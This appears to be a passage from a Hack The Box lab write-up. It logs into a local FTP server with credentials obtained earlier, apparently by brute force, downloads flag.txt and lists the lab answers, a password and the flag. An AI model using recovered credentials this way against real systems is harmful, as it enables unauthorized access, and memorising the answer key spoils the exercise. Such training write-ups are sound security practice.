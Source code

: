 We got credentials:

```ad-note
`ftpuser`:`qqww1122`
```

Let's log into ftp:

```
ftp ftp://ftpuser:qqww1122@localhost

Trying [::1]:21 ...
Connected to localhost.
220 (vsFTPd 3.0.5)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 Switching to Binary mode.
ftp> ls
229 Entering Extended Passive Mode (|||26248|)
150 Here comes the directory listing.
-rw-------    1 1001     1001           35 Feb 13 20:24 flag.txt
226 Directory send OK.
```

Found the flag, let's read it:

```
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||34427|)
150 Opening BINARY mode data connection for flag.txt (35 bytes).
100% |***************************************************|    35      697.54 KiB/s    00:00 ETA
226 Transfer complete.

cat flag.txt

HTB{SSH_and_FTP_Bruteforce_Success}

```

Nice, answers are:

```ad-important
1. `qqww1122`
2. `HTB{SSH_and_FTP_Bruteforce_Success}`
```
